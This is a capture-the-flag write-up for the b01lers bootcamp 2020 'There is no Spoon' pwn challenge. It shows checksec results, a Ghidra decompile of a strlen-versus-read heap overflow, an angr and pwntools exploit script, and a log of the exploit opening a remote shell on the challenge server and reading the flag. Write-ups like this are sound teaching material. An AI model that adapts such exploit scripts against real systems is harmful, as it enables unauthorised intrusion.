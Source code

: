 # b01lers bootcamp CTF 2020

## There is no Spoon

> 100
>
> Neo: bend reality, and understand the truth of the matrix.
> 
> `nc chal.ctf.b01lers.com 1006`
> 
> [thereisnospoon](thereisnospoon)  
> [thereisnospoon.c](thereisnospoon.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _angr_


## Summary

I lazied my way out of this one and let [angr.io](angr.io) do all the work.  6 second solve.  Zero sweat.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but shellcode.


### Decompile with Ghidra

```
undefined8 main(void)
{
  ssize_t sVar1;
  size_t __size;
  char local_128 [256];
  long local_28;
  uint *local_20;
  void *local_18;
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_c = 0x100;
  printf("Neo, enter your matrix: ");
  sVar1 = read(0,local_128,(long)local_c);
  local_c = (int)sVar1;
  __size = strlen(local_128);
  local_18 = malloc(__size);
  local_20 = (uint *)malloc(4);
  *local_20 = 0xff;
  printf("Reality: %d\n",(ulong)*local_20);
  printf("Make your choice: ");
  sVar1 = read(0,local_18,(long)local_c);
  local_c = (int)sVar1;
  puts("Now bend reality. Remember: there is no spoon.");
  local_28 = xor((long)local_18,(long)local_128,local_c);
  printf("Result: %s\n",local_28);
  printf("Reality: %d\n",(ulong)*local_20);
  if (*local_20 != 0xff) {
    system("/bin/sh");
  }
  return 0;
}
```

We just need to figure out the correct input to change `*local_20`, _or do we?_

> _Why are we looking at the decompile when the source was provided?_
> 
> Because we need to tell _angr_ what to search for:

```
004013d2 e8 e9 fc        CALL       system
         ff ff
```

`0x4013d2` is our target.


## Exploit

```python
#!/usr/bin/env python3

import angr, time, io
from pwn import *

FIND_ADDR=0x4013d2
t=time.time()
bits = open('./thereisnospoon','rb').read()
proj = angr.Project(io.BytesIO(bits),auto_load_libs=False)
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)
simgr.use_technique(angr.exploration_techniques.DFS())
simgr.explore(find=FIND_ADDR)
log.info(str(time.time() - t) + ' seconds')

binary = context.binary = ELF('./thereisnospoon')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1006)

p.send(simgr.found[0].posix.dumps(0))
p.interactive()
```

Not a lot here.  Set the find address to the address calling `system`, wait 6 seconds for _angr_ to do all the work for us, then just pass that along.


Output:

```
# ./exploit.py REMOTE=1
[*] 5.977146625518799 seconds
INFO    | 2020-10-04 21:05:10,983 | pwnlib.exploit | 5.977146625518799 seconds
[*] '/pwd/datajerk/b01lersbootcampctf2020/there_is_no_spoon/thereisnospoon'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
INFO    | 2020-10-04 21:05:11,041 | pwnlib.elf.elf | '/pwd/datajerk/b01lersbootcampctf2020/there_is_no_spoon/thereisnospoon'
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
[|] Opening connection to chal.ctf.b01lers.com on port 1006
INFO    | 2020-10-04 21:05:11,045 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.com Opening connection to chal.ctf.b01lers.com on port 1006: Trying 104.197.187.199
INFO    | 2020-10-04 21:05:11,100 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.[+] Opening connection to chal.ctf.b01lers.com on port 1006: Done
INFO    | 2020-10-04 21:05:11,169 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.com on port 1006: Done
[*] Switching to interactive mode
INFO    | 2020-10-04 21:05:11,171 | pwnlib.tubes.remote.remote.140324877945632 | Switching to interactive mode
Neo, enter your matrix: Reality: 255
Make your choice: Now bend reality. Remember: there is no spoon.
Result:
Reality: 0
$ id
uid=1000(strlenvsread) gid=1000(strlenvsread) groups=1000(strlenvsread)
$ ls -l
total 36
-r-xr-x--- 1 root strlenvsread    98 Oct  2 18:33 Makefile
-r--r----- 1 root strlenvsread    30 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root strlenvsread 17056 Oct  3 04:08 strlenvsread
-r-xr-x--- 1 root strlenvsread   912 Oct  2 18:33 strlenvsread.c
-r-xr-x--- 1 root strlenvsread    53 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{l0tz_0f_confUsi0n_vulnz}
```